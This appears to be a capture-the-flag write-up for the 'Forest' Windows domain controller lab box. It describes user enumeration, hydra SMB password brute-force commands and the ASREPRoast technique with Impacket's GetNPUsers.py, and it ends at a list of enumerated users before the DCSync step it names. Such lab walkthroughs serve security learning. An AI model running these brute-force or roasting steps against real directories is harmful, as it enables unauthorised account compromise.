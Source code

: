 ## Forest DC box, ASREPRoast exploit for user and DCSync attack for root

This box is a DC windows machine, and i learned a lot about DC. 

Firstly we can see that we have Ldap/Kerbereos/smb ..
And i used enum4Linux script and i  caught many users, the last step for me was to find a password for one of theses usernames, but with hydra i had nothing.

Bruteforce smb with hydra try first all theses usernames with blank password and also with the username as password but dosen't work :

```
$ hydra -L users.txt -P users.txt  10.10.10.161 smb 
$ hydra -L users.txt -p ""  10.10.10.161 smb 
```

So with some research about dc , and how to exploit kerberos and extract a hash for a user : this vuln called "ASREPRoast"

URL:  http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/

Impacket has a good tool for that: GetNPUsers.py ( we can use it without password)

Test all users caught before like :

```
$ cat users.txt
$331000-VK4ADACQNUCA
$D31000-NSEL5BRJ63V7
Administrator
DefaultAccount
EXCH01$
Exchange Servers
Exchange Trusted Subsystem
FOREST$
Guest
HealthMailbox0659cc1
HealthMailbox670628e
HealthMailbox6ded678
HealthMailbox7108a4e
HealthMailbox83d6781
HealthMailbox968e74d
HealthMailboxb01ac64
HealthMailboxc0a90c9
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxfd87238
SM_1b41c9286325456bb
SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb
SM_681f53d4942840e18
SM_75a538d3025e4db9a
SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549
SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b
Service Accounts
andy
krbtgt
lucinda
mark
santi
sebastien
svc-alfresco
```
```
```